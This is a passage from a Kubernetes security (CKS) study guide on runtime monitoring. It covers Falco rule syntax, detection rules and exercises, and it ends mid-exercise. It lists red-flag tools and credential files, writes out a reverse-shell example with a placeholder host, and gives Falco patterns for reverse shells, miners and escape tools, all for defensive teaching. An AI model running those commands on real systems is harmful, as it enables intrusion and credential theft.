


# CKS Domain 6: Monitoring, Logging and Runtime Security (20%)





> **Verified against CKS Curriculum v1.34** (latest as of Aug 2026)
> Source: Linux Foundation / CNCF curriculum repository
>
> Domain 6 competencies (verbatim from curriculum):
> - Perform behavioral analytics to detect malicious activities
> - Detect threats within physical infrastructure, apps, networks, data, users and workloads
> - Investigate and identify phases of attack and bad actors
> - Ensure immutability of containers at runtime
> - Use Kubernetes audit logs to monitor access

---

## Table of Contents

1. [Runtime Security Fundamentals](#1-runtime-security-fundamentals)
2. [Falco](#2-falco)
3. [Audit Logging](#3-audit-logging)
4. [Forensics and Incident Response](#4-forensics-and-incident-response)
5. [Container Runtime Security](#5-container-runtime-security)
6. [Linux Process Inspection](#6-linux-process-inspection)

---

## 1. Runtime Security Fundamentals

**[VERIFIED CKS CONTENT]** -- Domain 6 explicitly tests behavioral analytics, threat detection, and container immutability.

### 1.1 What Runtime Security Means in CKS Context

Runtime security is the practice of detecting, alerting on, and responding to anomalous behavior in running containers and cluster components **after** they have been deployed. It is the last line of defense:

```
Build-time security    -->  Image scanning, Dockerfile hardening
Deploy-time security   -->  Admission controllers, PSA, OPA
RUNTIME security       -->  Behavioral monitoring, audit logs, forensics
```

In the CKS exam, runtime security questions typically ask you to:
- Configure Falco rules to detect specific suspicious behavior
- Write or modify Kubernetes audit policies
- Investigate a compromised container (forensics)
- Ensure container immutability (read-only root filesystem)

### 1.2 Behavioral Monitoring Concepts

Behavioral monitoring watches what containers **actually do** at runtime, comparing observed behavior against expected behavior:

| What is monitored          | Expected behavior                     | Suspicious indicator                          |
|---------------------------|---------------------------------------|-----------------------------------------------|
| Processes                 | Application processes only            | Shell spawned (bash, sh), package manager run  |
| File access               | Application data directories          | /etc/shadow, /etc/passwd, /proc/1/environ     |
| Network connections       | Known ports, known destinations       | Outbound to unknown IPs, unexpected listeners |
| System calls              | Normal application syscalls           | ptrace, mount, unshare, clone with NEWNS      |
| User/privilege            | Non-root, no capability changes       | setuid, setgid, capability additions          |
| Binary execution          | Only binaries from image              | New binary dropped and executed at runtime    |

### 1.3 Suspicious Indicators -- CKS Focus Areas

#### Unexpected Processes
```
# Red flags inside a container:
bash, sh, zsh, dash               # Interactive shells
apt, yum, dnf, apk, pip           # Package managers
wget, curl, nc, ncat, nmap        # Network tools
gcc, g++, cc, make                # Compilers
python, perl, ruby                # Scripting interpreters (if not expected)
base64                            # Encoding/decoding (data exfiltration)
```

#### Unexpected Network Connections
```
# Red flags:
- Outbound connections to port 6666, 6667 (IRC -- C2)
- Connections to known crypto mining pools (port 3333, 14444)
- DNS queries to suspicious TLDs
- Reverse shells: nc -e /bin/sh <ip> <port>
- Unexpected listeners: 0.0.0.0:<unusual-port>
```

#### Sensitive File Access
```
# Files that should NOT be read by application processes:
/etc/shadow                       # Password hashes
/etc/passwd                       # User database
/etc/kubernetes/*                 # K8s config files
/var/run/secrets/kubernetes.io/*  # ServiceAccount tokens
/root/.ssh/*                      # SSH keys
/root/.bash_history               # Command history
/proc/1/environ                   # Environment variables (may contain secrets)
```

#### Privilege Escalation Indicators
```
- setuid/setgid calls
- Modifying /etc/sudoers
- Accessing /proc/sysrq-trigger
- Container escape attempts via /proc, cgroups
- nsenter or unshare execution
- Mounting host filesystems
```

#### Crypto Mining Patterns
```
- High sustained CPU usage
- Connections to mining pools (stratum+tcp://)
- Mining binaries: xmrig, cpuminer, minerd
- Process names containing "miner", "xmr"
```

#### Container Escape Indicators
```
- Access to /proc/1/root (break out via host PID)
- Mount syscalls (attempt to mount host filesystem)
- Writing to /etc/crontab on host
- Using nsenter to enter host namespaces
- chroot or pivot_root calls
- Exploiting /proc/sys/kernel/core_pattern
```

### 1.4 Container Immutability


**[VERIFIED CKS CONTENT]** -- "Ensure immutability of containers at runtime" is a direct CKS competency.

Immutable containers cannot be modified at runtime. This prevents:
- Attackers dropping new binaries
- Configuration tampering
- Persistent backdoors in running containers

#### Techniques to Enforce Immutability

```yaml
# 1. Read-only root filesystem
apiVersion: v1
kind: Pod
metadata:
  name: immutable-pod
spec:
  containers:
  - name: app
    image: nginx:1.25
    securityContext:
      readOnlyRootFilesystem: true      # KEY: makes root fs read-only
      runAsNonRoot: true
      runAsUser: 1000
      allowPrivilegeEscalation: false
    volumeMounts:
    - name: tmp
      mountPath: /tmp                   # Writable tmpfs for app needs
    - name: cache
      mountPath: /var/cache/nginx
    - name: run
      mountPath: /var/run
  volumes:
  - name: tmp
    emptyDir: {}
  - name: cache
    emptyDir: {}
  - name: run
    emptyDir: {}
```

```yaml
# 2. Distroless / minimal images (no shell, no package manager)
containers:
- name: app
  image: gcr.io/distroless/java17-debian12
  # No bash, no apt, no curl -- attackers have nothing to work with

# 3. PodSecurity enforce "restricted" profile
# (covered in PSA section, reinforces immutability)
```

---

## 2. Falco

**[VERIFIED CKS CONTENT]** -- Falco is the primary runtime security tool tested in CKS. The curriculum's "behavioral analytics" and "detect threats" competencies map directly to Falco.

### 2.1 Falco Architecture

```
+------------------+     +------------------+     +------------------+
|  Linux Kernel    |     |  Falco Engine    |     |  Alerting        |
|                  |     |                  |     |                  |
|  System calls    +---->+  Rule matching   +---->+  stdout/syslog   |
|  (open, execve,  |     |  against event   |     |  file output     |
|   connect, etc.) |     |  stream          |     |  HTTP webhook    |
|                  |     |                  |     |  gRPC            |
+--------+---------+     +------------------+     +------------------+
         |
    +----+----+
    | Driver  |
    +---------+
    Options:
    - Kernel module (falco.ko)
    - eBPF probe
    - Modern eBPF (CO-RE)
```

**How Falco works:**
1. Falco installs a driver (kernel module or eBPF probe) that hooks into Linux system calls
2. Every syscall made by any process (host or container) generates an event
3. The Falco engine evaluates each event against its rule set
4. When a rule condition matches, Falco generates an alert with the configured output message

**Deployment on Kubernetes:**
```bash
# Install Falco via Helm (DaemonSet on every node)
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm repo update
helm install falco falcosecurity/falco \
  --namespace falco \
  --create-namespace
```

Falco runs as a **DaemonSet** -- one pod per node, because it needs kernel-level access to monitor syscalls on that specific node.

**Key Falco files:**
```
/etc/falco/falco.yaml            # Main configuration
/etc/falco/falco_rules.yaml      # Default rules
/etc/falco/falco_rules.local.yaml  # Custom rules (overrides)
/etc/falco/rules.d/              # Additional rule files
```

### 2.2 Falco Rules Syntax

A Falco rule file is a YAML document containing three types of elements: **rules**, **macros**, and **lists**.

#### Rule Structure

```yaml
- rule: <unique_name>                    # REQUIRED: unique rule name
  desc: <description>                    # REQUIRED: human-readable description
  condition: <boolean_expression>        # REQUIRED: filter expression
  output: <format_string>               # REQUIRED: alert message template
  priority: <severity_level>             # REQUIRED: severity
  source: syscall                        # OPTIONAL: event source (default: syscall)
  tags: [container, network, process]    # OPTIONAL: classification tags
  enabled: true                          # OPTIONAL: enable/disable (default: true)
  exceptions: []                         # OPTIONAL: conditions that suppress alerts
```

#### Priority Levels (highest to lowest)

| Priority       | Use case                                    |
|---------------|---------------------------------------------|
| EMERGENCY     | System is unusable                          |
| ALERT         | Action must be taken immediately            |
| CRITICAL      | Critical conditions                         |
| ERROR         | Error conditions, state changes             |
| WARNING       | Warning conditions, unauthorized reads      |
| NOTICE        | Normal but significant, unexpected behavior |
| INFORMATIONAL | Informational messages, bad practices       |
| DEBUG         | Debug-level messages                        |

#### Macros

Macros are reusable condition snippets:

```yaml
- macro: spawned_process
  condition: (evt.type in (execve, execveat))

- macro: container
  condition: (container.id != host)

- macro: open_read
  condition: (evt.type in (open, openat, openat2) and evt.is_open_read=true and fd.typechar='f')

- macro: open_write
  condition: (evt.type in (open, openat, openat2) and evt.is_open_write=true and fd.typechar='f')

- macro: sensitive_files
  condition: (fd.name startswith /etc and (fd.name in (/etc/shadow, /etc/sudoers, /etc/pam.conf)))
```

#### Lists

Lists are named arrays of values:

```yaml
- list: shell_binaries
  items: [bash, csh, ksh, sh, tcsh, zsh, dash]

- list: package_mgmt_binaries
  items: [apt, apt-get, aptitude, dpkg, yum, rpm, dnf, apk, pip, pip3, gem]

- list: network_tool_binaries
  items: [nc, ncat, nmap, dig, tcpdump, tshark, ngrep, telnet, mtr, traceroute, wget, curl]

- list: mining_binaries
  items: [xmrig, cpuminer, minerd, minergate-cli, ccminer, cgminer]

- list: sensitive_file_names
  items: [/etc/shadow, /etc/sudoers, /etc/pam.conf, /etc/pam.d]

- list: log_files
  items: [/var/log/syslog, /var/log/auth.log, /var/log/secure, /var/log/audit/audit.log]
```

### 2.3 Key Falco Filter Fields

**[VERIFIED]** -- These are the official Falco supported fields from falco.org documentation.

#### Process Fields
| Field             | Description                                    | Example                      |
|-------------------|------------------------------------------------|------------------------------|
| `proc.name`       | Process name (max 16 chars)                    | `proc.name = bash`           |
| `proc.pname`      | Parent process name                            | `proc.pname = nginx`         |
| `proc.cmdline`    | Full command line with arguments               | `proc.cmdline contains wget` |
| `proc.exe`        | First command argument (argv[0])               | `proc.exe = /usr/bin/python` |
| `proc.pid`        | Process ID                                     | `proc.pid = 1`               |
| `proc.ppid`       | Parent process ID                              | `proc.ppid != 0`             |

#### Container Fields
| Field                          | Description                          | Example                              |
|-------------------------------|--------------------------------------|--------------------------------------|
| `container.id`                 | Container ID (12 chars) or "host"   | `container.id != host`               |
| `container.name`               | Container name                      | `container.name = nginx`             |
| `container.image.repository`   | Image repository                    | `container.image.repository = nginx` |

#### File Descriptor Fields
| Field       | Description                               | Example                           |
|------------|-------------------------------------------|-----------------------------------|
| `fd.name`   | Full file path or connection tuple        | `fd.name startswith /etc`         |
| `fd.type`   | File, directory, socket, pipe, etc.       | `fd.type = file`                  |
| `fd.ip`     | Remote IP address                         | `fd.ip = 10.0.0.1`               |
| `fd.port`   | Remote port number                        | `fd.port = 443`                   |

#### Event Fields
| Field           | Description                | Example                              |
|----------------|----------------------------|--------------------------------------|
| `evt.type`      | System call name           | `evt.type = execve`                  |
| `evt.dir`       | Event direction (< or >)  | `evt.dir = <` (exit events)          |
| `evt.args`      | All event arguments        | `evt.args contains "O_WRONLY"`       |

#### User Fields
| Field        | Description    | Example                |
|-------------|----------------|------------------------|
| `user.name`  | Username       | `user.name = root`     |
| `user.uid`   | User ID        | `user.uid = 0`         |
| `group.name` | Group name     | `group.name = docker`  |

#### Kubernetes Fields
| Field                    | Description              | Example                              |
|-------------------------|--------------------------|--------------------------------------|
| `k8s.pod.name`           | Pod name                | `k8s.pod.name = nginx-abc123`       |
| `k8s.ns.name`            | Namespace               | `k8s.ns.name = production`          |
| `k8s.deployment.name`    | Deployment name         | `k8s.deployment.name = frontend`    |

#### Condition Operators
```
=, !=, <, <=, >, >=        # Comparison
contains, icontains         # Substring match (case-sensitive / insensitive)
startswith, endswith         # Prefix/suffix match
in, pmatch                  # Set membership, path prefix match
exists                      # Field exists
and, or, not                # Boolean logic
```

### 2.4 Writing Custom Falco Rules

#### Output Format Strings

Use `%` prefix to interpolate field values in output messages:
```yaml
output: >
  Suspicious process in container
  (user=%user.name command=%proc.cmdline
   container=%container.name
   image=%container.image.repository
   pod=%k8s.pod.name
   namespace=%k8s.ns.name)
```

Unset fields display as `<NA>`. Transform operators: `%toupper(user.name)`.

#### Visibility/Ordering Rules
- Lists can reference only previously defined lists
- Macros can reference only previously defined macros
- Macros can reference any list
- Rules can reference any macro

### 2.5 Common Falco Rules for CKS Scenarios

#### Rule 1: Detect Shell Spawned in Container

```yaml
- list: shell_binaries
  items: [bash, csh, ksh, sh, tcsh, zsh, dash]

- macro: spawned_process
  condition: (evt.type in (execve, execveat))

- macro: container
  condition: (container.id != host)

- rule: Terminal shell in container
  desc: >
    A shell was used as the entrypoint/exec in a container.
    This may indicate an attacker has gained interactive access.
  condition: >
    spawned_process and
    container and
    proc.name in (shell_binaries)
  output: >
    Shell spawned in container
    (user=%user.name shell=%proc.name parent=%proc.pname
     cmdline=%proc.cmdline container=%container.name
     image=%container.image.repository
     pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: WARNING
  tags: [container, shell, mitre_execution]
```

#### Rule 2: Detect Sensitive File Read

```yaml
- list: sensitive_files
  items:
    - /etc/shadow
    - /etc/sudoers
    - /etc/pam.conf

- macro: open_read
  condition: >
    evt.type in (open, openat, openat2) and
    evt.is_open_read=true and
    fd.typechar='f'

- rule: Read sensitive file in container
  desc: Detect an attempt to read sensitive files inside a container
  condition: >
    open_read and
    container and
    fd.name in (sensitive_files)
  output: >
    Sensitive file opened for reading
    (user=%user.name file=%fd.name command=%proc.cmdline
     container=%container.name image=%container.image.repository
     pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: WARNING
  tags: [container, filesystem, mitre_credential_access]
```

#### Rule 3: Detect Privilege Escalation

```yaml
- rule: Non-sudo setuid call
  desc: >
    Detect calls to setuid by processes other than sudo/su,
    which may indicate privilege escalation attempts
  condition: >
    evt.type = setuid and
    evt.dir = < and
    container and
    not proc.name in (sudo, su)
  output: >
    Privilege escalation via setuid
    (user=%user.name process=%proc.name cmdline=%proc.cmdline
     container=%container.name image=%container.image.repository
     pod=%k8s.pod.name)
  priority: NOTICE
  tags: [container, privilege_escalation, mitre_privilege_escalation]
```

#### Rule 4: Detect Unexpected Network Connection

```yaml
- list: allowed_outbound_ports
  items: [80, 443, 53, 8080, 8443]

- rule: Unexpected outbound connection from container
  desc: Detect outbound network connections to non-standard ports from containers
  condition: >
    evt.type in (connect) and
    evt.dir = < and
    container and
    fd.type = ipv4 and
    not fd.port in (allowed_outbound_ports)
  output: >
    Unexpected outbound connection
    (user=%user.name command=%proc.cmdline
     connection=%fd.name container=%container.name
     image=%container.image.repository
     pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: NOTICE
  tags: [container, network, mitre_command_and_control]
```

#### Rule 5: Detect Binary Written to Container (Drift Detection)

```yaml
- rule: Write binary to container
  desc: >
    Detect a new executable binary being written inside a container.
    Containers should be immutable -- no new binaries at runtime.
  condition: >
    open_write and
    container and
    evt.arg.flags contains "O_CREAT" and
    (fd.name startswith /bin or
     fd.name startswith /sbin or
     fd.name startswith /usr/bin or
     fd.name startswith /usr/sbin or
     fd.name startswith /usr/local/bin or
     fd.name startswith /tmp)
  output: >
    Binary written to container filesystem
    (user=%user.name file=%fd.name command=%proc.cmdline
     container=%container.name image=%container.image.repository
     pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: ERROR
  tags: [container, filesystem, mitre_persistence]
```

#### Rule 6: Detect Package Manager Execution

```yaml
- list: package_mgmt_binaries
  items: [apt, apt-get, yum, dnf, apk, dpkg, rpm, pip, pip3, gem, npm]

- rule: Package manager in container
  desc: >
    Package management process launched in container.
    Containers should be immutable and not install packages at runtime.
  condition: >
    spawned_process and
    container and
    proc.name in (package_mgmt_binaries)
  output: >
    Package manager executed in container
    (user=%user.name command=%proc.cmdline container=%container.name
     image=%container.image.repository
     pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: ERROR
  tags: [container, process, mitre_execution]
```

#### Rule 7: Detect Crypto Mining Activity

```yaml
- list: mining_binaries
  items: [xmrig, cpuminer, minerd, minergate-cli, ccminer, cgminer, bfgminer]

- list: mining_ports
  items: [3333, 4444, 5555, 7777, 8888, 9999, 14444, 14433, 45700]

- rule: Crypto mining process detected
  desc: Detect known cryptocurrency mining binaries running in containers
  condition: >
    spawned_process and
    container and
    (proc.name in (mining_binaries) or
     proc.cmdline contains "stratum+tcp" or
     proc.cmdline contains "xmr" or
     proc.cmdline contains "monero")
  output: >
    Crypto miner detected in container
    (user=%user.name process=%proc.name cmdline=%proc.cmdline
     container=%container.name image=%container.image.repository
     pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: CRITICAL
  tags: [container, process, crypto, mitre_resource_hijacking]
```

#### Rule 8: Detect Container Escape Attempt

```yaml
- rule: Container escape via mount
  desc: Detect attempt to mount filesystems inside a container, potential container escape
  condition: >
    evt.type in (mount) and
    container and
    not proc.name in (mount)
  output: >
    Mount syscall in container -- possible escape attempt
    (user=%user.name command=%proc.cmdline
     container=%container.name image=%container.image.repository
     pod=%k8s.pod.name)
  priority: CRITICAL
  tags: [container, escape, mitre_privilege_escalation]
```

#### Rule 9: Detect Write Below /etc

```yaml
- rule: Write below etc in container
  desc: Detect writes to /etc directory inside a container
  condition: >
    open_write and
    container and
    fd.name startswith /etc
  output: >
    File written below /etc in container
    (user=%user.name file=%fd.name command=%proc.cmdline
     container=%container.name image=%container.image.repository
     pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: ERROR
  tags: [container, filesystem, mitre_persistence]
```

#### Rule 10: Detect Reverse Shell

```yaml
- rule: Reverse shell in container
  desc: >
    Detect reverse shell connections, common post-exploitation technique
  condition: >
    spawned_process and
    container and
    ((proc.name = bash and proc.cmdline contains "/dev/tcp") or
     (proc.name in (nc, ncat) and proc.cmdline contains "-e") or
     (proc.name = python and proc.cmdline contains "socket") or
     (proc.name = perl and proc.cmdline contains "socket"))
  output: >
    Reverse shell detected in container
    (user=%user.name command=%proc.cmdline
     container=%container.name image=%container.image.repository
     pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: CRITICAL
  tags: [container, network, mitre_command_and_control]
```

### 2.6 Troubleshooting Falco Rules

#### Rule Not Triggering
```bash
# 1. Check Falco is running
systemctl status falco
# or in K8s:
kubectl get pods -n falco

# 2. Check rule is loaded and enabled
falco --list  # List all loaded rules

# 3. Verify rule file syntax
falco --validate /etc/falco/falco_rules.local.yaml

# 4. Test with verbose output
falco -o "stdout_output.enabled=true" -o "log_level=debug"

# 5. Common issues:
# - Rule condition uses wrong evt.type for the operation
# - Macro/list referenced before definition (ordering matters)
# - Rule disabled by "enabled: false" in a later file
# - container.id != host won't match if process runs on host
```

#### False Positives
```yaml
# Use exceptions to suppress known-good behavior:
- rule: Terminal shell in container
  exceptions:
    - name: known_shell_containers
      fields: [container.image.repository]
      comps: [=]
      values:
        - [[my-debug-container]]

# Or use 'append' to add to existing rule conditions:
- rule: Terminal shell in container
  append: true
  condition: and not container.image.repository = "my-debug-image"

# Or disable entirely (not recommended for production):
- rule: Terminal shell in container
  enabled: false
```

### 2.7 Falco Exercises (20 Exercises)

**Exercise F-01: Basic Shell Detection**
Write a Falco rule that detects when `bash` or `sh` is executed inside any container.

<details>
<summary>Solution</summary>

```yaml
- rule: Shell in container
  desc: Detect bash or sh executed in a container
  condition: >
    evt.type in (execve, execveat) and
    container.id != host and
    proc.name in (bash, sh)
  output: >
    Shell executed in container (user=%user.name shell=%proc.name
    container=%container.name pod=%k8s.pod.name)
  priority: WARNING
```
</details>

---

**Exercise F-02: Detect wget or curl**
Write a rule to detect when `wget` or `curl` is run in a container (potential data exfiltration or downloading malicious payloads).

<details>
<summary>Solution</summary>

```yaml
- list: download_binaries
  items: [wget, curl]

- rule: Download tool in container
  desc: Detect wget or curl executed in container
  condition: >
    evt.type in (execve, execveat) and
    container.id != host and
    proc.name in (download_binaries)
  output: >
    Download tool executed (user=%user.name command=%proc.cmdline
    container=%container.name image=%container.image.repository
    pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: NOTICE
```
</details>

---

**Exercise F-03: Detect Sensitive Mount Read**
Write a rule to detect when the ServiceAccount token file is read inside a container.

<details>
<summary>Solution</summary>

```yaml
- rule: ServiceAccount token read
  desc: Detect read access to the ServiceAccount token mounted in a container
  condition: >
    evt.type in (open, openat, openat2) and
    evt.is_open_read=true and
    container.id != host and
    fd.name startswith /var/run/secrets/kubernetes.io
  output: >
    ServiceAccount token accessed (user=%user.name file=%fd.name
    command=%proc.cmdline container=%container.name
    pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: WARNING
```
</details>

---

**Exercise F-04: Detect Write to /tmp and Execution**
Write a rule that detects when a new file is written to /tmp and then executed (common attack pattern: drop + execute).

<details>
<summary>Solution</summary>

```yaml
- rule: Executable dropped in tmp
  desc: Detect write of file to /tmp inside a container
  condition: >
    evt.type in (open, openat, openat2) and
    evt.is_open_write=true and
    container.id != host and
    fd.name startswith /tmp and
    evt.arg.flags contains "O_CREAT"
  output: >
    File created in /tmp (user=%user.name file=%fd.name
    command=%proc.cmdline container=%container.name
    pod=%k8s.pod.name)
  priority: ERROR

- rule: Execution from tmp
  desc: Detect execution of binaries from /tmp directory
  condition: >
    evt.type in (execve, execveat) and
    container.id != host and
    (proc.exe startswith /tmp or proc.name startswith /tmp)
  output: >
    Binary executed from /tmp (user=%user.name command=%proc.cmdline
    container=%container.name pod=%k8s.pod.name)
  priority: CRITICAL
```
</details>

---

**Exercise F-05: Use Macros and Lists**
Refactor the following inline rule to use macros and lists:
```yaml
- rule: inline_rule
  condition: evt.type in (execve, execveat) and container.id != host and proc.name in (bash, sh, zsh)
```

<details>
<summary>Solution</summary>

```yaml
- list: shell_binaries
  items: [bash, sh, zsh]

- macro: spawned_process
  condition: evt.type in (execve, execveat)

- macro: container
  condition: container.id != host

- rule: Shell in container
  desc: Detect shell executed in container using macros and lists
  condition: >
    spawned_process and
    container and
    proc.name in (shell_binaries)
  output: >
    Shell in container (user=%user.name shell=%proc.name
    container=%container.name)
  priority: WARNING
```
</details>

---

**Exercise F-06: Detect /etc/passwd Modification**
Write a rule to detect when /etc/passwd is modified inside a container (potential user creation by attacker).

<details>
<summary>Solution</summary>

```yaml
- rule: Modify etc passwd in container
  desc: Detect modification of /etc/passwd inside container
  condition: >
    evt.type in (open, openat, openat2) and
    evt.is_open_write=true and
    container.id != host and
    fd.name = /etc/passwd
  output: >
    /etc/passwd modified in container (user=%user.name
    command=%proc.cmdline container=%container.name
    image=%container.image.repository pod=%k8s.pod.name)
  priority: ERROR
```
</details>

---

**Exercise F-07: Detect Outbound Connection to Known Mining Port**
Write a rule to detect connections to common crypto mining pool ports.

<details>
<summary>Solution</summary>

```yaml
- list: mining_ports
  items: [3333, 4444, 5555, 7777, 14444, 14433, 45700]

- rule: Connection to mining pool port
  desc: Detect outbound connection to known cryptocurrency mining ports
  condition: >
    evt.type = connect and
    evt.dir = < and
    container.id != host and
    fd.type = ipv4 and
    fd.port in (mining_ports)
  output: >
    Connection to mining port detected (user=%user.name
    connection=%fd.name container=%container.name
    image=%container.image.repository pod=%k8s.pod.name)
  priority: CRITICAL
```
</details>

---

**Exercise F-08: Detect Namespace-Specific Activity**
Write a rule that detects shell access only in the `production` namespace.

<details>
<summary>Solution</summary>

```yaml
- rule: Shell in production namespace
  desc: Detect shell access specifically in production namespace
  condition: >
    evt.type in (execve, execveat) and
    container.id != host and
    proc.name in (bash, sh, zsh, dash) and
    k8s.ns.name = production
  output: >
    Shell in PRODUCTION container (user=%user.name shell=%proc.name
    container=%container.name pod=%k8s.pod.name
    namespace=%k8s.ns.name)
  priority: CRITICAL
```
</details>

---

**Exercise F-09: Disable a Default Rule**
The default rule "Terminal shell in container" is generating too many false positives for your debug containers. Disable it.

<details>
<summary>Solution</summary>

Add to `/etc/falco/falco_rules.local.yaml`:
```yaml
# Disable the default rule entirely
- rule: Terminal shell in container
  enabled: false
```

Or selectively allow specific containers:
```yaml
- rule: Terminal shell in container
  append: true
  condition: and not container.image.repository in (my-debug-image, busybox)
```
</details>

---

**Exercise F-10: Detect Process Running as Root**
Write a rule to detect any process running as root (uid=0) inside a container.

<details>
<summary>Solution</summary>

```yaml
- rule: Root process in container
  desc: Detect processes running as root inside containers
  condition: >
    evt.type in (execve, execveat) and
    container.id != host and
    user.uid = 0
  output: >
    Process running as root in container (user=%user.name
    process=%proc.name cmdline=%proc.cmdline
    container=%container.name pod=%k8s.pod.name)
  priority: NOTICE
```
</details>

---

**Exercise F-11: Detect SSH Key Access**
Write a rule to detect reading of SSH private keys in a container.

<details>
<summary>Solution</summary>

```yaml
- rule: SSH key accessed in container
  desc: Detect reading of SSH private key files in container
  condition: >
    evt.type in (open, openat, openat2) and
    evt.is_open_read=true and
    container.id != host and
    (fd.name startswith /root/.ssh or
     fd.name startswith /home and fd.name contains .ssh) and
    (fd.name endswith id_rsa or
     fd.name endswith id_ed25519 or
     fd.name endswith id_ecdsa)
  output: >
    SSH private key read (user=%user.name file=%fd.name
    command=%proc.cmdline container=%container.name
    pod=%k8s.pod.name)
  priority: CRITICAL
```
</details>

---

**Exercise F-12: Detect nsenter or unshare Execution**
Write a rule to detect container escape tools being used.

<details>
<summary>Solution</summary>

```yaml
- list: escape_binaries
  items: [nsenter, unshare, chroot, pivot_root]

- rule: Container escape tool detected
  desc: Detect use of namespace manipulation tools in container
  condition: >
    evt.type in (execve, execveat) and
    container.id != host and
    proc.name in (escape_binaries)
  output: >
    Container escape tool executed (user=%user.name
    tool=%proc.name cmdline=%proc.cmdline
    container=%container.name pod=%k8s.pod.name)
  priority: CRITICAL
```
</details>

---

**Exercise F-13: Detect Network Scanning**
Write a rule to detect nmap, masscan, or other scanning tools in containers.

<details>
<summary>Solution</summary>

```yaml
- list: network_scan_binaries
  items: [nmap, masscan, zmap, netcat, nc, ncat]

- rule: Network scanning from container
  desc: Detect network scanning tools executed in container
  condition: >
    evt.type in (execve, execveat) and
    container.id != host and
    proc.name in (network_scan_binaries)
  output: >
    Network scanning tool detected (user=%user.name
    tool=%proc.name cmdline=%proc.cmdline
    container=%container.name image=%container.image.repository
    pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: CRITICAL
```
</details>

---

**Exercise F-14: Multi-Condition Rule with Exceptions**
Write a rule that detects any file write in /etc inside containers, but excludes the `kube-system` namespace and the `etcd` container.

<details>
<summary>Solution</summary>

```yaml
- rule: Write below etc with exceptions
  desc: Detect writes to /etc in containers excluding kube-system and etcd
  condition: >
    evt.type in (open, openat, openat2) and
    evt.is_open_write=true and
    container.id != host and
    fd.name startswith /etc and
    k8s.ns.name != kube-system and
    container.name != etcd
  output: >
    Write to /etc detected (user=%user.name file=%fd.name
    command=%proc.cmdline container=%container.name
    pod=%k8s.pod.name namespace=%k8s.ns.name)
  priority: ERROR
  exceptions:
    - name: allowed_etc_writes
      fields: [k8s.ns.name, container.name]
      comps: [=, =]
      values:
        - [monitoring, prometheus]
```
</details>

---

**Exercise F-15: Detect Environment Variable Dump**
Write a rule to detect when /proc/self/environ or /proc/1/environ is read (leaking secrets from env vars).

<details>
<summary>Solution</summary>

```yaml
- rule: Environment variable dump
  desc: Detect reading process environment variables which may contain secrets
  condition: >
    evt.type in (open, openat, openat2) and
    evt.is_open_read=true and
    container.id != host and
    (fd.name contains /proc/self/environ or
     fd.name contains /proc/1/environ)
  output: >
    Process environment read -- may expose secrets (user=%user.name
    file=%fd.name command=%proc.cmdline container=%container.name
    pod=%k8s.pod.name)
  priority: WARNING
```
</details>

---

**Exercise F-16: Detect Symlink-Based Attacks**
Write a rule to detect creation of symlinks to sensitive files.

<details>
<summary>Solution</summary>

```yaml
- rule: Symlink to sensitive file
  desc: Detect symlink creation pointing to sensitive system files
  condition: >
    evt.type in (symlink, symlinkat) and
    container.id != host and
    (evt.args contains /etc/shadow or
     evt.args contains /etc/passwd or
     evt.args contains /proc)
  output: >
